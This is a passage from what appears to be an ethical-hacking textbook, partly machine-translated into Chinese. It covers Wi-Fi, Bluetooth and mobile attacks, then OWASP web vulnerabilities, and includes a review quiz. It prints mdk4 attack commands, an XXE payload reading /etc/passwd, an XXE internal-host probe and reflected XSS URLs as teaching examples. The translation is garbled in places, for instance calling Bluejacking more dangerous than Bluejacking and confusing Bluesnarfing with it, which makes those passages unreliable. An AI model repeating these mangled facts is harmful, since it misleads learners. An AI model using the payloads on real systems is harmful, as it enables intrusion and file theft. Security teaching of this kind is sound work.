一旦监听模式启用，即可开始发动攻击。我们可以对在监听模式开启时指定的信道上所有可用 SSID 发起认证攻击。下面是使用接口 `wlan0mon` 运行认证攻击的命令：

```
kilroy@portnoy $ sudo mdk4 wlan0mon a
Waiting for targets…
Found new target AP 60:5F:8D:CD:77:A9
Found new target AP F8:BC:0E:05:BB:89
Found new target AP F8:BC:0E:05:D1:C9
Found new target AP 54:83:3A:AF:99:9D
Found new target AP 88:DA:1A:27:EB:C4
Found new target AP F8:BB:BF:7A:BF:03
Connecting Client F6:28:45:5A:18:AB to target AP 60:5F:8D:CD:77:A9 Status: No Response.
Packets sent:      1 - Speed:    1 packets/sec
```

这是一种广域攻击，通常不是我们想要的。其他攻击会针对单个 SSID。对于这些攻击，需要提供额外信息。你可以使用暴力 fuerza 攻击来判断 SSID 是否被隐藏，同时检查 SSID 是否在范围内。下面是针对名为 WubbleWiFi 的 SSID 的一次攻击示例：

```
kilroy@portnoy $ sudo mdk4 wlan0mon p -e WubbleWiFi
AP responded on 0 of 1 probes (0 percent)
Packets sent:      1 - Speed:    1 packets/sec
AP responded on 0 of 127 probes (0 percent)
Packets sent:    128 - Speed:  127 packets/sec
```

## Bluetooth

无线传输不只是网络层的问题。 peripheral 设备也已实现无线化。更进一步，任何两台通常通过有线方式通信的设备都可能使用称为 Bluetooth 的无线协议。Bluetooth 是一种允许两台设备进行短距离通信的无线协议。它在所谓的 ISM 频段 2.4 GHz 频率范围内工作。802.11 也使用相同的频谱的一部分。虽然 Class A Bluetooth 设备因信号强度可达约 100 米的范围，但大多数 Bluetooth 设备的范围约为 10 米，需要近距离才能交互。

Bluetooth 通过 profile 来描述其功能。每个 Bluetooth 设备会实现一组或多个 profile，具体取决于设备的需求。例如，蓝牙耳机会实现 Advanced Audio Distribution（A2DP）profile，该 profile 定义了如何在两台设备之间流式传输多媒体音频。耳机可能还会实现其他 profile，因此每个 Bluetooth 设备可能实现多个 profile。当两台设备配对时，它们会共享能力，即告诉对方它们支持哪些 profile。

扫描过程会在两个设备之间建立连接。扫描需要验证，因此每个设备都应提供一种表示它希望与另一设备配对的方式。早期设备使用了简单的四位数字（PIN），需要提供该数字以表明请求配对的设备知道该值。输入能力有限的设备（如头戴式耳机或耳机）会使用硬编码值。设备文档会为您提供正确的值。随后的蓝牙版本扩展了用于验证配对请求的功能。

蓝牙 v2.1 引入了 Simple Secure Pairing（SSP），该版本提供了四种在不考虑对旧设备的兼容性的前提下完成配对请求的机制。第一种称为 Just Works，配对本应在用户无需进行任何交互的情况下自动完成。如果双方都有输入能力，则可以支持数值比较。在此情况下，每一端会显示一个六位数字值。如果两个值相同，用户可以确认此情况，两端即可完成配对过程。


在某些情况下，外设可能只能提供输入但无法输出，例如蓝牙键盘。当您将其与计算机配对时，计算机可能会提示您在键盘上输入一个值。如果数值匹配，配对过程即完成。这通常是一个六位数字值。最后，您还可以进行带外配对。这需要另一个协议协助配对过程。例如，近场通信（NFC）有时会被使用。您可能拥有一个设备，要求您将另一设备（如智能手机或平板）靠近。两设备靠近后，可在智能手机或平板上的应用程序中使用该功能完成配对和设置过程。

蓝牙存在一些攻击方式。请记住，无论您做什么，都需要在您想要攻击的设备附近。这在公共场所很容易实现。这些攻击包括 `bluejacking`、`bluesnarfing` 和 `bluebugging`。

### 扫描

在我们进一步探讨攻击之前，应该先了解如何确定潜在目标的位置。您可以简单地执行添加蓝牙设备的过程，系统会扫描设备。也可以使用专用软件。这可以通过像 `btscanner` 这样的程序完成。使用 `btscanner`，您可以进行 both an inquiry scan 和 a brute‑force scan。在 inquiry scan 中，您的系统进入 inquiry scan 状态，设备会监听其他设备发出的 inquiry。共有 32 个信道，蓝牙接收器需要在每个信道上花费时间进行监听。下面的列表展示了 `btscanner` 执行 inquiry scan 时的输出：

**Inquiry Scan Using `btscanner`**

```
|Time                  Address            Clk off  Class     Name                              
|                                                                                              
|2022/12/25 17:58:22  64:1C:B0:94:BA:58  0x2c42   0x0c043c  (unknown)                          
||2022/12/25 17:56:07  00:9E:C8:93:48:C9  0x38b3   0x0a0110  (unknown)                          
||                                                                                              
|                                                                                              
|                                                                                              
|                                                                                              
|                                                                                              
|                                                                                              
|                                                                                              
|                                                                                              
|                                                                                              
|                                                                                              
|___________________________________________________________________________________________________|
| enter=select, Q=quit                                                                              |
|starting inquiry scan                                                                
|Found device 00:9E:C8:93:48:C9                                                                
|Found device 64:1C:B0:94:BA:58
|                                                                                              
```

另一种扫描方式是 brute‑force scan。与 inquiry scan 让接收器监听 inquiry 不同，brute‑force scan 主动发送消息以确定设备类型。为此，它需要目标地址。此类连接在层 2 发生，即我们讨论的是 MAC 地址。下面的列表展示了 `brute‑force scan` 的使用示例：

**Brute‑Force Scan Using `brute-force`**

```
|Time                  Address            Clk off  Class     Name                              
|                                                                                              
|2023/03/02 18:39:47 | A8:51:AB:9C:66:ED | 0x0000   | 0x000000  | kilroy4KTV | 
```

-   [蓝牙劫持]的危险程度远高于蓝牙劫持。蓝牙劫持是向设备发送数据，而蓝牙劫持则是从设备获取数据。蓝牙设备必须在一定程度上暴露，以便其他设备能够开始配对过程。这为另一设备利用这段“小窗口”提供了可能。已有攻击者能够在不经过配对过程的情况下通过蓝牙获取设备的访问。如果攻击者能够获取某人智能手机或其他带有敏感数据的蓝牙设备的访问权限，他们可能会提取这些数据。

-   与其他蓝牙攻击类似，攻击者必须在靠近目标设备的范围内。但有一种变体称为 `长距离蓝牙劫持`，可以在更大的距离上进行相同的攻击。

-   `bluesnarf++`攻击与蓝牙劫持类似，但攻击者获取受害设备文件系统的方式不同。蓝牙劫持通过 OBEX 协议实现。如果在 OBEX 上运行文件传输协议（FTP）服务器，则可以在无需任何身份验证的情况下访问远程系统。这是因为 OBEX 推送服务。

### Bluebugging

-   你可能已经注意到周围存在的窃听设备的问题。Amazon 的 Echo、Google 的 Home 以及其他类似设备通常处于“始终监听”的模式。Bluebugging 攻击与此类似，且在我们自愿将这些设备安装到生活和工作空间之前就已经存在。Bluebugging 攻击利用蓝牙访问手机以发起电话，一旦电话拨通，攻击者即拥有一个远程监听设备。初始攻击必须在靠近目标的位置进行，但电话一旦拨出，无论双方在空间上的关系如何，都能提供远程监听点。

-   Bluebugging 或许是好事也是坏事（取决于你站在哪一边），它很容易被识别并防御。至少在电话被拨通时，持有设备的人会立刻察觉。他们只需查看设备，然后挂断即可。当然，修复最初让攻击者获得访问权限的漏洞是另一回事。

-   Bluebugging 攻击以及其他攻击都是旧的攻击方式，这意味着它们对现代设备的成功率较低，因为自这些攻击被发现以来，能够让攻击者轻松获取访问的漏洞通常已经得到修复。但这并不意味着它们无关紧要。仍有大量旧设备在使用，这些设备可能仍然容易受到这些攻击的影响。

### Bluedump

-   Bluedump 攻击需要攻击者具备一定的知识，但可以使目标系统信任攻击者系统。攻击者必须知道受害设备的 `BDADDR`（硬件地址）。攻击者在连接尝试时会伪造该地址。目标设备会发送认证请求。攻击者设备则回复 `HCI_Link_Key_Request_Negative_Reply` 消息。这可能导致目标设备删除用于认证被伪装设备的现有密钥。随后目标设备进入配对模式，从而允许攻击者与目标设备配对，使攻击者的系统成为受信任设备。

### Bluesmack

-   这是一种拒绝服务攻击，当攻击者利用逻辑链路控制和适应协议（L2CAP）来评估连接并测量数据从一个设备到另一个设备再返回所需的时间（往返时间）时，就可能发生。攻击者可以操纵发送的数据包大小。在合适的包大小下，目标设备将变得无法使用。

### 移动设备

-   蓝牙攻击是获取移动设备访问的一种方式，且蓝牙的优势在于无需物理接触，只需在受害者附近即可。这使得攻击者可以通过空中方式操作，而非进行物理操作。鉴于移动设备的普遍性，它们成为攻击者的高价值目标。虽然许多攻击依赖于特定应用或操作系统的漏洞，但也存在一些跨平台的常见攻击类型。由于这些攻击在多个平台上均可使用，它们更多属于攻击类别而非特定的漏洞利用。

-   目前移动设备的主要平台有两个，但这并不意味着只有两个平台。情况因 Android 而变得更加复杂，Android 是由 Google 开发和管理的软件，但运行 Android 的硬件由众多制造商研发。Google 向设备制造商提供 Android 源代码，各制造商可能会对代码进行修改，或自行添加软件和功能。这导致 Android 平台呈现碎片化和分裂状态，并且在野外存在大量不同的 Android 版本。Android 运行在智能手机和平板电脑上，同时也有一个专为智能穿戴设备（如手表）设计的版本。

-   另一个常见的平台是 iOS，由 Apple 开发用于 iPhone 和 iPad。iOS 是 macOS 的精简版本。从我们的角度来看，iOS 的优势在于 Apple 大力推动用户使用最新软件版本，包括使得在旧硬件上运行新版操作系统变得困难。因此，实际存在的 iOS 版本数量远少于 Android 版本数量。这有两面性。一方面，iPhone/iPad 的系统安装更有可能保持更新，已知漏洞更少；另一方面，Android 设备的系统版本更分散，漏洞风险更高。

-   对移动设备最令人担忧的威胁渠道之一是通过应用程序。Android 配备 Google Play Store 作为应用市场。Samsung 等厂商也提供自己的应用市场，供用户安装应用。此外，第三方应用商店也可以在设备上配置。默认情况下，Android 平台通常禁止此类设置，但用户若愿意，可以绕过该保护措施。

-   Apple 拥有自己的市场。您可以在 Figure 11.10 中看到 Apple App Store。iOS 不是像 Android 那样的开放平台，无法配置额外的市场或在不破坏操作系统的情况下安装应用。此过程通常称为 `越狱`，随着 Apple（以及 Google 和 Samsung）发现并修复曾被利用的漏洞，越狱已变得不再 trivial。倾向于越狱的用户可能也更倾向于安装非法软件。

### 移动设备攻击

-   第三方应用是获取移动设备访问的最佳方式。Google 和 Apple 对其应用市场提交的应用进行审核。但这并非完美过程。已有应用在两个市场的审核流程中通过，却在某些方面具有恶意行为。有时合法软件也会越界，例如 Trend Micro 软件因收集大量数据而被下架。对于那些不进行软件审核和分析的第三方市场，问题更为严重——这类市场容易成为植入间谍软件和其他恶意程序的渠道。


**FIGURE 11.10** Apple App Store

Many apps regularly collect data, either with the user's awareness or without. This data can be transmitted back to storage controlled by the app's owner. Most applications use frameworks provided by the operating system vendor (e.g., Apple or Google). These frameworks might commonly be used to send data over an HTTP connection, and they may even force encryption of that connection. There is no guarantee of that encryption, though, which means data can be leaked if the application collects data from the user and then sends that data to a remote storage location. This data leakage is potentially a serious problem, and it might also be used by an attacker to gather details that could be used for other attacks.

As mentioned, wireless networks aren't always protected. There may be rogue networks or unencrypted networks. This is another place where data leakage can happen. Using techniques shown earlier in this chapter, data can be collected over wireless networks. This may be especially useful in public places, where people are likely to be attached to wireless networks from their mobile devices. They may also be likely to be doing things like checking enterprise email or interacting over enterprise communications platforms like Microsoft Teams, Slack, or HipChat.

Some other common attacks against mobile devices are the same as those you would think about for traditional desktop systems. A mobile device may have a different processor, and the operating systems do provide some protections for applications so they don't interact with other applications on the device. This is a technique called `sandboxing`. Phishing attacks are just as possible on mobile devices. Malware is possible on mobile devices, just as it is on desktop systems. Malware can include spyware, collecting information from the mobile device.

Bad programming is always an issue. No matter how much testing is performed, between the software vendor and the platform vendor, bugs happen. In some cases, bad encryption mechanisms may be used. This may happen when programmers think there are better ways to encrypt than by standard means. It's commonly felt that openly available encryption is best because it gets to be analyzed and tested by a lot of people who are the best in their fields.


Another possibility from bad programming practices is improperly handling session data. Session data is used to provide information about the state of the application communications. It lets the client and server know where they are in the application flow. If session information isn't handled properly, sessions can be impersonated. They may also be replayed. This may be especially possible in combination with weak encryption.

As more users bring their own devices into the workplace, it can be harder to protect the enterprise because not every avenue of attack can be closed down on a personal device. The company needs to protect its assets, but the smartphone isn't a company asset. There is an interesting intersection here, which attackers can take advantage of.

You don't have to go really fancy with your mobile device attacks, though. You can go old‑school. Smishing attacks, short for Short Message Service (SMS) phishing, use text messages to attack users. Figure 11.11 shows an example of a real‑life smishing message. Attackers are returning to these old‑school attacks. You can see some of the hallmarks of this being an attack message. Sometimes, you will see hallmarks of using the mixed case hTtP because it's thought to be a way of evading detection. This message doesn't have that indicator. Old intrusion detection systems didn't take mixed case indicators into account and would miss malicious messages that weren't exactly as you'd expect (either HTTP or http, for instance). This is a scare tactic, though, which is an indicator it is a malicious message. Especially with so much news about vulnerabilities, this could be the type of message that would lure in someone who wasn't very sophisticated technically.


**FIGURE 11.11** Smishing message ¶ Source: Courtesy of Rick Read

The domain name here is highly suspicious, though sometimes you will see URLs that are even more suspicious. Sometimes, the URL will include a raw IP address. A smishing message received a few months ago included a URL with a raw IP address. The URL used 82.118.21.203 instead of a domain name or a fully qualified domain name. In case you are questioning, though, you can do a simple lookup of this IP address, or even domain names in case you are concerned about them. In this case, the IP address maps to Russia. While this in and of itself isn't suspicious, it wouldn't be a source of a website T‑Mobile was using to get customers to visit using a text message, which was the company the text message was purporting to come from. The following was the hostname lookup for this IP address, at the time of the receipt of the text message. In the intervening months, during edits to the book, the hostname has changed. You can see the new name after the original name.

```
kilroy@milo $ host 82.118.21.203
203.21.118.82.in-addr.arpa domain name pointer kamal2.bakkali59.pserver.ru.

kilroy@milo $  host 82.118.21.203
203.21.118.82.in-addr.arpa domain name pointer nebrosika4.isplevel.pro.
```

Wireless networks are common today, especially as mobile devices become more ubiquitous. There are two common types of wireless networks. The first is an ad hoc network where the stations organize themselves into the network. A station is an endpoint in a wireless network. If there is an access point that the stations connect to, it's an infrastructure network. When stations connect to an access point, they have to authenticate. There may be open authentication, which means anyone can join the network without needing to know a password. Modern wireless networks use WPA for encryption and WPA networks use a four‑way handshake to authenticate the station and also derive the encryption key.

WEP was the first attempt at encrypting wireless communications. Unfortunately, the initialization vector, a random value meant to seed the encryption, wasn't actually random and could be guessed, leading to key leakage. The second pass was meant as a stopgap, and that was WPA. Eventually, the final replacement for WEP came out, called WPA2. WPA and WPA2 support both personal and Enterprise authentication. Personal authentication uses a pre‑shared key. Enterprise authentication can support username and password authentication. WPA3 was introduced in 2018, which included the use of stronger encryption keys as well as the use of Simultaneous Authentication of Equals to better protect the transmissions between the station and access point.

Wireless networks can be attacked. In networks that use WEP, the encryption key could be derived if enough frames were collected from the wireless network. Common sniffing applications like Wireshark can be used to sniff wireless networks. The wireless interface needs to be put into monitor mode to collect the radio headers. Wireshark may be capable of doing this on its own, depending on the network interface. You can also use the `airmon` program from the `aircrack-ng` suite. You can also use `aircrack-ng` to try to crack the password used for the network.

一种获取足够数据的方法是使用去认证攻击。该攻击向客户端发送消息，告诉它们在网络上已被注销。攻击系统伪造消息，使其看起来像是来自接入点的。同时，攻击者可能尝试干扰接入点，使其无法获取或响应站点。攻击者可能会持续发送这些注销消息，迫使受害站点不断发送尝试向网络进行认证的消息。

恶意双胞胎攻击是攻击者建立一个看似合法、SSID 相同的网络。站点会尝试向恶意接入点进行认证。恶意接入点随后可以收集任何认证凭据，一旦站点将这些凭据发送过去，恶意双胞胎会允许连接，并在站点连接后收集该站点的流量。

另一种攻击是重新安装键攻击。这是一种利用重用流量迫使站点使用已知密钥的攻击。这意味着攻击者知道密钥是什么，因而可以解密流量。

当然，802.11 并不是唯一的无线通信协议。蓝牙也常被使用。虽然有些蓝牙攻击可能已过时且不适用于现代设备，但许多旧设备仍使用较早的蓝牙实现，这些攻击在这些设备上仍然有效。蓝牙劫持（Bluejacking）是利用蓝牙向目标系统发送消息。蓝牙骗取（Bluesnarfing）是利用蓝牙收集目标系统的数据。蓝牙劫持（Bluebugging）是利用蓝牙连接到目标系统，然后从该系统发起呼叫，以便窃听对话。

移动设备通常使用诸如 802.11 和蓝牙等无线协议。攻击者可以通过第三方应用商店将恶意应用注入移动设备（如平板和智能手机），用户可能会被诱导将其添加为设备选项。移动设备同样易受桌面设备的同类攻击，如钓鱼、恶意软件以及可能导致数据泄露的编程错误。

## Review Questions

你可以在附录中找到答案。

1. 无线网络的两种类型是什么？

   1. 星形和环形  

   2. 巴士和混合  

   3. 基础设施和混合  

   4. 基础设施和自组织  

2. WPA 握手使用了多少个阶段？

   1. 两个  

   2. 四个  

   3. 三个  

   4. 一个  

3. 为了捕获无线流量的所有头部，需要在网络接口上启用哪种模式？

   1. 促销模式  

   2. 监听模式  

   3. 无线电模式  

   4. 无线局域网模式  

4. 哪种无线攻击可以利用已知信息来解密无线流量？

   1. 窃听  

   2. 注销攻击  

   3. 重新安装键攻击  

   4. 恶意双胞胎  

5. 执行蓝牙扫描的目的是什么？

   1. 识别开放端口  

   2. 识别可用配置文件  

   3. 识别终端  

   4. 识别厂商  

6. 执行去认证攻击的目的是什么？

   1. 禁用站点  

   2. 强制站点重新认证  

   3. 减少握手步骤数量  

   4. 降低加密强度  

7. 允许个人在企业网络中使用自己智能手机的政策是什么？

   1. 自带设备  

   2. 使用个人设备  

   3. 自带智能设备  

   4. 使用个人智能设备  

8. WEP 中加密过程的哪个部分较弱？

   1. 密钥  

   2. Diffie‑Hellman  

   3. 初始化向量  

   4. 种子向量  

9. WPA 四向握手的用途是什么？

   1. 传递密钥  

   2. 派生密钥  

   3. 加密消息  

   4. 初始化种子  

10. SSID 的用途是什么？

    1. 加密消息  

    2. 提供 IP 地址  

    3. 标识网络  

    4. 种子密钥  

11. 恶意双胞胎攻击中使用的接入点类型是什么？

    1. 基础设施  

    2. 自组织  

    3. WPA  

    4. 恶意  

12. 恶意双胞胎攻击是如何工作的？

    1. 钓鱼用户获取凭据  

    2. 伪造 SSID  

    3. 修改 SSID  

    4. 注入四向握手  

13. 如果没有让用户做出他们通常不会做的事，最可能的方法是使用什么来在移动设备上安装恶意软件？

    1. 使用 Apple Store 或 Google Play Store  

    2. 使用 Android 的外部存储  

    3. 使用第三方应用商店  

    4. 越狱  

14. Bluebugging 攻击的用途是什么？

    1. 识别附近的蓝牙设备  

    2. 监听物理空间  

    3. 启用手机摄像头  

    4. 从目标系统收集数据  

15. Class A 蓝牙设备的信号范围通常是多少？

    1. 300 英尺  

    2. 3,000 英尺  

    3. 75 英尺  

    4. 500 英尺  

16. 哪个工具可以用于在无线网络上进行窃听以获取所有头部？

    1. Ettercap  

    2. `tcpdump`  

    3. `aircrack-ng`  

    4. `airmon-ng`  

17. 从受害者的角度看，蓝牙骗取（Bluesnarfing）比蓝牙劫持（Bluejacking）更危险的原因是？

    1. Bluejacking 发送，Bluesnarfing 接收。  

    2. Bluejacking 接收，Bluesnarfing 发送。  

    3. Bluejacking 安装键盘记录器。  

    4. Bluesnarfing 安装键盘记录器。  

18. 哪个工具可以用于执行恶意双胞胎攻击？

    1. Wireshark  

    2. Ettercap  

    3. `wifiphisher`  

    4. `aircrack-ng`  

19. WPA‑加密网络允许的认证类型有哪些？

    1. 握手和个人  

    2. 个人和企业  

    3. 企业和握手  

    4. 802.11 和个人  

20. 捕获包含无线电头部的无线流量时，下面哪项通常看不到？

    1. 能力  

    2. 探测请求  

    3. SSID  

    4. 网络类型  

21. WPA3 用什么来启动站点与接入点之间的认证和关联过程？

    1. 四向握手  

    2. 同伴的相互认证  

    3. 同等之间的同时认证  

    4. 分离的认证与加密  

22. 哪些蓝牙攻击可能导致服务拒绝（DoS）？

    1. Bluejacking  

    2. Bluesnarfing  

    3. Bluedumping  

    4. Bluesmack  


23. 如果你手里有一个 Pringles 罐和一台笔记本电脑，最可能使用的技术是什么？

1. `Bluesnarfing`
2. 无线足迹探测
3. 恶意双胞胎
4. 重新安装键

24. 要执行 `Bluedump` 攻击，需要哪些信息？

1. `BDADDR`
2. `BDIP`
3. `IPADDR`
4. `DUMPADDR`

25. 为了让无线信号主要在建筑内部传播而不外泄，应选择哪种建筑材料？

1. 胶合板
2. 玻璃
3. 石膏板
4. 混凝土

## Chapter 12 攻击与防御

攻击是伦理黑客参与的重要元素。在完成对环境的全面评估后，你可以转向尝试获取访问权限。虽然社交工程在攻击中可能发挥重要作用，但它并不是唯一的入口。一旦你进入系统，还需要进行横向移动。这可能需要一些技术性攻击。可能涉及 Web 应用及其暴露的漏洞。你可能还需要了解拒绝服务攻击。在进行伪造攻击时，可能需要关闭服务器。还有聆听服务的应用层 compromises。

另一个在攻击网络时需要考虑的要素是已有的防护措施。由于伦理黑客的主要目标是提升组织的防御态势，因此了解防御策略是有帮助的。在攻击方面，了解可能存在的防护措施将帮助你绕过防护。当你为所在组织提供修复措施时，应该更好地理解可能采取的措施。

Web 应用是用户获取业务功能和数据的常见方式。攻击 Web 应用的方法有多种。成功攻击 Web 应用可能导致多种潜在结果，包括获得系统级访问。网站也会受到拒绝服务攻击的攻击。虽然带宽消耗攻击会让人联想到拒绝服务，但它并不是唯一的拒绝服务攻击类型。还有其他方式可以进行拒绝服务攻击，这些方式依然有效且与带宽消耗无关。

攻击者通常会尝试在系统之间移动——我们称之为 `lateral movement`。由于这点以及容易通过已有的开放漏洞进入，因此拥有良好的防御策略很重要。虽然 `defense-in-depth` 和 `defense-in-breadth` 长期被认为是保护网络的良好做法，另一种思考网络设计的方式是实施 `defensible network architecture`。

## Web Application Attacks

Web 应用不只是一组网页。静态站点也有可能，用户对页面没有程序化交互。页面呈现给用户，可能包含链接和其他内容，但没有可供用户输入或向服务器发送可被处理的内容。Web 应用可能包含页面内的代码，使用脚本语言，或运行在服务器上的代码。

从架构角度思考 Web 应用，一种常见的开发方式是采用模型-视图-控制器（MVC）模式。Figure 12.1 展示了 MVC 模式在 Web 应用中的实现示意图。模型是数据结构。虽然它通常存储在数据库中，但往往有一个应用服务器负责管理模型的创建和操作。应用服务器使用数据库服务器进行持久化存储，但所有对数据（模型）的处理均在应用服务器完成。传统上，数据库服务器是关系型数据库，这意味着所有数据操作均发起于应用服务器，虽然业务逻辑有时会在数据库服务器上执行。请记住，使用关系型数据库时与数据库的交互是通过 Structured Query Language（SQL）实现的。虽然业务和应用逻辑在应用服务器中，但有时操作实际上是在数据库服务器上完成。


**FIGURE 12.1** Model/view/controller design

控制器是接收请求并处理它们的应用部分，将请求路由到运行在应用服务器中的正确组件。最后，视图是用户交互组件，通常是 Web 浏览器。模型以用户在浏览器中可消费的形式呈现。页面使用超文本标记语言（HTML）描述和渲染，也可能包含脚本以增强页面功能。

应用服务器负责业务逻辑，并可能使用不同的编程语言，具体取决于应用服务器类型。在 Windows 上，可能使用 Microsoft 的 Internet Information Services，其支持的应用服务器支持 .NET 语言，如 `C#` 和 `Visual Basic`。Java 应用可从多个供应商获得。`Tomcat`、`WildFly`（前身 `JBoss`）、`WebLogic` 等是 Java 应用服务器的典型示例。应用服务器本身可能引入不同的漏洞和攻击手段，但也存在许多跨 Web 应用的通用攻击方式。

在审视 Web 应用攻击时，一个重要的考量是被攻击的组件。有些攻击针对客户端设备（视图），有些针对 Web 服务器（控制器），还有针对数据存储（数据库）的攻击。攻击点不一定是修复点所在的位置。这意味着即使客户端是攻击目标，它也不一定是防护的最佳位置。

### OWASP Top 10 Vulnerabilities

开放式 Web 应用安全项目（OWASP）是一个项目集合。其中之一是 Top 10 Vulnerabilities 项目，列出了 Web 应用中常见的漏洞。虽然这些漏洞专门针对 Web 应用，但其底层问题在原生应用中也常见。列表会定期更新，当前列表中的大多数漏洞是对已有漏洞的变体，经过名称变更和合并后，许多漏洞已存在多年。2021 版（从 2017 版更新而来）包含以下漏洞：

*   `A01:2021 Broken Access Control` — 包含多种情况，如给予用户过多权限、绕过访问控制检查、提升权限以及强制浏览。
*   `A02:2021 Cryptographic Failures` — 之前称为 Sensitive Data Exposure，这更多是从漏洞中产生的结果而非漏洞本身。该类漏洞包括未使用加密、使用弱密钥、使用不佳的加密机制、使用过时的加密、以及使用验证不当的证书元素。
*   `A03:2021 Injection` — 这是一个类别，曾被细分为多个具体漏洞。后文将提供具体的注入攻击示例，包括 SQL 注入和跨站脚本（XSS）。
*   `A04:2021 Insecure Design` — 设计不佳会导致应用出现安全问题，因为安全在设计阶段未被考虑。更好地理解对应用的威胁将有助于改进设计。
*   `A05:2021 Security Misconfiguration` — 包括操作系统或应用缺乏适当的硬化，也可能是留下默认用户名和密码的情况。
*   `A06:2021 Vulnerable or Outdated Components` — 缺乏补丁导致这些漏洞，且对库或框架的审查不足可能导致选择有漏洞的组件。
*   `A07:2021 Identification and Authentication Failures` — 包括凭证充填或暴力破解等攻击，明文存储密码也属于此类，以及对会话标识值处理不当的问题。

# A08:2021 软件和数据完整性失败

`A08:2021 软件和数据完整性失败`—这可能更常被视为软件供应链失败，因为它包括代码验证失败以及与构建管道相关的问题，这些问题可能导致构建工具生成恶意输出。任何未能防范完整性失败的代码或基础设施都属于此类。

# A09:2021 安全日志和监控失败

`A09:2021 安全日志和监控失败`—在应用开发时，安全日志并不总是被考虑在内。更糟的是，运维团队可能根本没有监控任何日志。日志可以用于检测已识别的漏洞的利用。

# A10:2021 服务器端请求伪造

`A10:2021 服务器端请求伪造`—此项是根据社区请求添加到列表中的，问题是当 Web 应用未验证用户提供的 URL 时会出现。这可能导致应用向意外目的地发送请求，从而让攻击者绕过其他防护（如防火墙或访问控制列表）。

虽然有很多 remediation（缓解措施）可以覆盖这些漏洞，合适的设计和输入验证是良好起点。下面是 OWASP 识别出的不同漏洞的一些示例。

## XML 外部实体处理

XML 外部实体攻击现在归类为配置错误，虽然它以前是独立的漏洞。这是一种攻击，允许攻击者操纵发送到服务器的数据，以获得应用未期望或未被授权的结果。

数据模型可能是由多个相互关联的数据块组成的复杂结构，需要一起组织。这与仅从网页向服务器传递字符串有本质区别。可能会传递多个字符串、若干整数，以及组织信息。组织数据的一种方式是使用可扩展标记语言（XML）。XML 允许将所有相关数据放入单一结构中，并通过组织信息指示每个部分的含义。常见的客户端与服务器之间数据传输方式是使用 XML 结构化数据并进行传输。

正如你在其他 Web 应用攻击类型中所见，XML 实体注入攻击来源于服务器端代码接受来自客户端的数据而不进行任何验证。这意味着开发者没有在数据进入应用时进行任何检查。即使是页面内容渲染时的脚本代码，也仍然可能被用户篡改或生成数据传输到服务器。因此，任何来自用户的数据都不应被信任。一般规则是，从外部传入函数的数据不应被信任，因为程序的正常控制流可能已经被篡改。开发者若不检查数据，坏数据就会滑入程序并改变预期行为。

下面的代码片段展示了一个可能让攻击者访问系统文件的 XML 包。XML 指向系统中的外部实体（这里是文件）。攻击者请求将 `/etc/passwd` 文件的内容返回给视图。

### XML 外部实体处理示例

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE wubble [
<!ELEMENT wubble ANY>
<!ENTITY xxe SYSTEM "file:///etc/passwd"  >]><wubble>&xxe;</wubble>
```

这可能不算什么大事。但在某些情况下，你可以让应用服务器为你完成一些工作。假设你想知道内部 Web 服务器（例如，因防火墙规则而你无法直接访问的服务器）是否在运行。一种做法是让应用服务器通过传递 URL 发起请求，系统会将其解释为拉取指定页面的请求。下面是一个示例 XML，它可以实现这一点。

### XML 请求内部页面

```
<?xml version="1.0"?>
<!DOCTYPE GVI [<!ENTITY xxe SYSTEM "https://172.30.42.25:8443">]>
```

当然，使用这种方式进行资源检查（或端口扫描）并不是唯一的操作。防止此类攻击的最佳方法是服务器端进行输入验证。虽然可以在客户端进行验证，但它很容易被绕过。使用拦截代理或浏览器内置工具捕获请求并修改它们再发送到服务器是很容易的。

在诸如这些示例中，仅仅禁止 XML 使用外部实体的 SYSTEM 即可为防护画下起点。应用需要在解析数据后，由应用自身直接执行任何必需的操作。更进一步，评估是否有绕过外部实体使用的方法会很有帮助。再次强调，任何外部需求都应由应用代码在充分验证数据后直接处理，这样在解析 XML 时可以忽略所有外部实体。

外部实体 XML 攻击针对服务器，这可能是 Web 服务器或应用服务器，具体取决于谁负责解析 XML。

## 跨站脚本 (XSS)

跨站脚本 (XSS) 攻击是利用 Web 服务器攻击客户端的一种攻击。根据 OWASP Top 10，这是一种注入攻击，攻击者在输入字段中注入脚本代码片段，使其在访问该站点的用户浏览器中执行。XSS 有三种实现方式，它们都针对用户。区别在于脚本是否被存储。第一种，脚本存储在服务器上并对所有访问该页面的用户显示，称为 `持久型跨站脚本`。第二种是 `反射型跨站脚本`，脚本不存储，而是包含在发送给受害者的 URL 中。第三种利用文档对象模型 (DOM)。

所有三种类型都使用相同的脚本方式。攻击者会在 `<script></script>` 块中放置短脚本。例如，攻击者可能在输入字段中注入 `<script>alert('wubble');</script>`。在持久型跨站脚本中，这个值会被存储在服务器上，随后在用户访问页面时显示，脚本随之执行。典型例子是论坛：用户在填写姓名、邮箱和评论时，这些字段的值会被保存。当其他人返回论坛时，这些值会被渲染，脚本随之运行，弹出包含 `wubble` 的提示框。

在反射型攻击中，脚本不被存储，而是出现在 URL 参数中：

```
http://www.badsite.com/foo.php?param=<script>alert(5000);</script>
```

你向受害者发送此 URL，并诱导其点击，例如在邮件中使用如下 HTML 标签：

```
<a href="http://www.badsite.com/foo.php?param=<script>alert(5000);</script"></a>
```

The user, getting this email, would only see the clickable link. To see the URL the link goes to, they would have to hover their cursor over the link or perhaps look at the source code of the message. Even this assumes the user is capable of understanding HTML enough to know what is being done here. Obviously, a real script would do something more malicious, like stealing session information stored in cookies. Once the information was stolen, it could be transmitted to an attacker by making a request with the stolen information in it to a server managed by the attacker.

The DOM is what enables the DOM‑based XSS attack. DOM is a way of referring to elements in the page as though they were objects. This means you can call methods on the objects—specifically, you can get and set parameters for those objects. The DOM‑based XSS would look just like the reflected XSS. The difference is that the variable referred to in the URL would be a portion of the page. Inside the page is a script that pulls that variable and does something based on what the value is. Sending a URL with a value of a script inside the variable will insert the script into the page, meaning the script will get executed.

Since scripts can become complex and may use characters that are illegal in a URL, such as a space or other special characters, the characters need to be encoded. You encode these characters using something called URL encoding. To URL‑encode something, you convert the ASCII characters into a numeric value using the ASCII table. The numeric value is rendered in hexadecimal, and that value has a % in front of it to indicate that the following value is a hexadecimal representation of an ASCII character. Back to the space character, the decimal value of the space character in the ASCII character set is 32. In hexadecimal, that’s 20 (2 × 16). To render a space character into a URL, you would use %20. Anytime you see %20 in a URL, you know it’s replacing a space character, which wouldn’t be handled correctly by a server since white space is sometimes considered a delimiter, meaning the character before the space would be interpreted as the last character in the URL to the web server.


